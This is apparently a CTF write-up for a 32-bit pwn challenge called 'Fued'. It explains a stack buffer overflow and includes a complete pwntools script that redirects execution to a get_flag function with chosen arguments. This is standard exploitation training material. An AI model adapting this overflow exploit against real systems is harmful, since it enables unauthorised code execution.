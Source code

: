 ```yaml
---
title: Fued pcc.nccs 2022
author: megachar0x01
date: 2022-07-22
categories: [Binary Exploitation, ctf, pwn, x86]
---
```


### Purpose : Get The Flag

We see that no protection is enabled and binary is 32-bit.

<img src="https://i.imgur.com/JefIMrL.png" alt="img_1">


  
Start by analyzing the main function. We can see that it prints the msg and then takes values from the user and store it in a character buffer of size 100. Later down the program, we can see that after some checks buffer is passed to the "safe" function.

<img src="https://i.imgur.com/wgiG6Ud.png" alt="img_2">

In the safe function we can see that the pass argument is copied to a variable that is on the stack because it has a 30 buffer size and we can overflow it

<img src="https://i.imgur.com/1cCLI7l.png" alt="img_3">

After found the correct padd value (38{ 30 ( buff size ) + 4 (saved ebp  ) + 4( param_1 )  } ) we  start writing exploit after going through function list found "get_flag" function . Which will read the flag but only print if the correct argument is paced which is "0xdeadbeef" and "0xcaf3b33f".


<img src="https://i.imgur.com/eOcnppY.png" alt="img_4">

Now complicated things are out of the way. My favorite part crafting the exploit.

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


gdbscript = '''

continue
'''.format(**locals())


exe = './fued'; elf = context.binary = ELF(exe, checksec=False);

io = start()
offset = 38

payload = b"A"*38+p32(0x080491f6)+b"A"*4+p32(0xdeadbeef)+p32(0xcaf3b33f) 

io.sendlineafter(b"Enter the key that you received when registering:",payload)

io.interactive()


```

"ブーム"。 旗を受け取った

<img src="https://i.imgur.com/u1nkhBH.png" alt="img_5">
